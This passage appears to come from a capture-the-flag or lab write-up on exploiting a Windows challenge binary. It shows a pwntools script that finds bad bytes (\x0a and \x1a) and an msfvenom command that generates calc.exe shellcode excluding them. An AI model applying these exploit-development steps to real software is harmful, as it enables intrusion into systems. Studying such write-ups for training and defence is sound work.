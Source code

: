 In the buffer, we can identify bytes from `00` `01` `02` `03` up till `09` and then `0a` is missing.

This means that `0a` is a bad byte.

We can modify the script and run it again to identify other possible bad bytes.

```py
from pwn import *

p = process('./window_of_opportunity.exe')

payload = b""

for i in range(256):
    if i in [0xa]:
        continue
    payload += i.to_bytes(1, 'little')

pause()

p.sendlineafter(b'interested in? ', b'5')
p.sendlineafter(b'have any.\r\n', payload)

p.interactive()
```

![image](buf1.png)


This time we notice that the payload gets cut off and byte `0x1a` is missing.

Hence byte `\x1a` is the next bad byte.

If we keep repeating the process, we identify that the only bad bytes are `\x0a` and `\x1a`.

### GENERATING OUR SHELLCODE

Now that we have our bad bytes, we can generate our shellcode with msfvenom.

```sh
msfvenom -p windows/exec cmd=calc.exe -b '\x0a\x1a' > shellcode
```

![image](msfvenom0.png)
